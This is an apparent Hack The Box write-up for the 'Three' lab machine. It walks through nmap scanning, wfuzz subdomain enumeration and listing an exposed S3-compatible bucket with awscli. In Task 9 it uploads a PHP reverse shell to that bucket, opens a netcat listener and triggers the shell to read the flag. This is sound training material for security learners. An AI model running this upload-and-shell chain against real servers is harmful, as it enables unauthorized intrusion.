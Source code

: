 ```yaml
---
title: Three Machine - HTB

---
```


Three Machine - Hack The Box

### Task 1: How many TCP ports are open? 

To determine which TCP ports are open, we can use the following command:

`nmap -p- <IP>`

This command scans all 65,535 TCP ports on the target IP address. However, this can be slow, so we can speed it up with the following command:

`nmap -p- -T4 -n --min-rate 1000 <IP>`

- The `-T4` option sets a faster timing template, which is generally safe and doesn't usually trigger security mechanisms or false negatives.
- The `-n` option disables DNS resolution, preventing nmap from resolving IP addresses to hostnames, which speeds up the scan.
- The `--min-rate 1000` option ensures that nmap sends at least 1000 packets per second.

<img src="openPorts.png" />

As shown in the image, SSH and HTTP services are open, indicating that we can access the IP address in a web browser.

Solution: **2** 

### Task 2: What is the domain of the email address provided in the "Contact" section of the website? 

When we access the IP address in the browser, we see a page for "The Toppers," a music group. In the "Contact" section, the provided email address is mail@thetoppers.htb.

<img src="homepage.png" />

Solution: **thetoppers.htb** 

### Task 3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? 

The `/etc/hosts` file maps IP addresses to hostnames. If a hostname is found in this file, the system will use this mapping instead of querying a DNS server.

<img src="etc_hosts_file.png" />

Solution: **/etc/hosts**

### Task 4: Which sub-domain is discovered during further enumeration? 

Based on the email domain, we suspect the main domain is thetoppers.htb. We add this to our `/etc/hosts` file.

<img src="etc_hosts_modifies.png" />

Now, when we navigate to http://thetoppers.htb, the corresponding website appears.

To discover subdomains, we can use Gobuster, a tool that brute-forces DNS subdomains. Gobuster’s vhost mode checks for subdomains by visiting URLs and verifying the IP address. A wordlist of common subdomains is used, such as:
- [Subdomain Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-110000.txt)

However, Gobuster might return a "400: Bad Request" error. A possible fix is to add the `--append-domain` flag in later versions of Gobuster.

Alternatively, wfuzz is another tool that, while more complex and slower, can handle a larger number of requests in parallel:

`wfuzz -u http://thetoppers.htb -w subdomains-top1million-110000.txt -H "Host: FUZZ.thetoppers.htb" --hh=11947`

This command brute-forces the domain by replacing the FUZZ keyword with potential subdomains from the wordlist. The `--hh` flag filters out subdomains with a specific response size, reducing noise in the results.

<img src="wfuzzSubdoaminFind.png" />

The tool discovers four possible subdomains. The subdomain s3 is particularly interesting as it relates to Amazon's Simple Storage Service (S3). We add an entry for s3.thetoppers.htb in `/etc/hosts` and visit the URL.

<img src="etec_hosts_s3.png" />

<img src="visitSubdomain.png" />

The page displays a JSON file.

Solution: **s3**

### Task 5: Which service is running on the discovered sub-domain? 

As discussed in the previous task, the subdomain s3.thetoppers.htb is associated with Amazon S3, a service that allows users to store and retrieve any amount of data.

Accessing this storage system could provide information on how to find the flag.

Solution: **Amazon s3**

### Task 6: Which command line utility can be used to interact with the service running on the discovered sub-domain? 

After some research, we find that the AWS Command Line Interface (CLI) is the tool for performing AWS-related tasks, including interacting with S3.

- [AWS CLI Documentation](https://docs.aws.amazon.com/cli/v1/userguide/cli-chap-welcome.html)

To install the AWS CLI, run the following commands:

`curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"`
`unzip awscliv2.zip`
`sudo ./aws/install`

Solution: **awscli**

### Task 7: Which command is used to set up the AWS CLI installation? 

The fastest way to set up the AWS CLI is to use the aws configure command, which prompts you to enter your AWS credentials and default settings.

[AWS CLI Quickstart Guide](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-quickstart.html)

<img src="awsConfigureExample.png" />

We followed the example on the documentation.

Solution: **aws configure**

### Task 8:  What is the command used by the above utility to list all of the S3 buckets? 

To list all the available AWS commands, use `aws help`. For S3-specific commands, use:

`aws s3 help`

One of the commands listed is ls, which is used to view the contents of directories or storage locations:

`aws --endpoint-url=http://s3.thetoppers.htb s3 ls`

This command lists all buckets owned by the user. In our case, it lists the thetoppers.htb bucket:

`aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

This command lists objects and common prefixes within the specified bucket.

<img src="aws_ls.png" />


Solution: **aws s3 ls**

### Task 9:  This server is configured to run files written in what web scripting language? 


Since the `index.php` file is executed, the server is likely configured to run PHP scripts. We can use this knowledge to attempt a reverse shell.

A commonly used tool for accessing a web server running PHP is detailed here:

- [PHP Reverse Shell Guide](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

After downloading the reverse shell script, we upload it to S3 using the `cp` command in awscli, which allows us to copy files between local storage and the S3 bucket.

`aws --endpoint-url=http://s3.thetoppers.htb s3 cp ~/Documents/php-reverse-shell-1.0/php-reverse-shell.php s3://thetoppers.htb/php-reverse-shell.php`

Before uploading, modify the `php-reverse-shell.php` script to specify the IP and port for the reverse shell. The IP address (e.g., 10.10.14.217) can be found using `ifconfig`.

After uploading the script, start a TCP listener:

`nc -v -n -l -p 1234`

This command listens for incoming TCP connections using Netcat in verbose mode (`-v`), without DNS resolution (`-n`), in listen mode (`-l`), on port 1234 (`-p`).

Then, navigate to http://thetoppers.htb/php-reverse-shell.php to execute the script. If successful, the reverse shell will be displayed in the terminal.

<img src="reverseShell.png" />

After gaining access to the server, inspect the system and locate the flag in `/var/www/flag.txt`.

<img src="flag.png" />

Flag submitted and the box is hacked! Well done!

Solution: **php**




